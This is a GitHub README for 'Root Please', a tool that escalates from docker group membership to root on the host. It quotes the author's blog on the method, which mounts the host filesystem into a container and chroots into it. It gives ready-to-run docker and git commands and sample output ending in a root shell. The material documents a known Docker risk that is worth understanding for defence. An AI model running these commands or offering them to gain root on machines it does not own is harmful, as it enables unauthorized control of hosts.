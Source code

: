 Root Please
======================

Some important quoted text striped from Chris's blog.

*The command you run to perform the privilege escalation fetches my Docker image from the Docker Hub Registry and runs it. The -v parameter that you pass to Docker specifies that you want to create a volume in the Docker instance. The -i and -t parameters put Docker into ‘shell mode’ rather than starting a daemon process.*

*The instance is set up to mount the root filesystem of the host machine to the instance’s volume, so when the instance starts it immediately loads a chroot into that volume. This effectively gives you root on the machine.*

*There are many, many other ways to achieve this, but this was one of the most straightforward. You can find the code in the Github repo and the actual image on Docker Hub.*


**How to Use**

Through Docker Hub:

```bash
> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```
 
Or through Github:

```bash
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -i -t rootplease
```

And the result:

```bash
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```

So if you're a member of the 'docker' group on a machine, this command gives you a root shell on the host OS. [See Chris's blog post for details](https://fosterelli.co/privilege-escalation-via-docker.html).


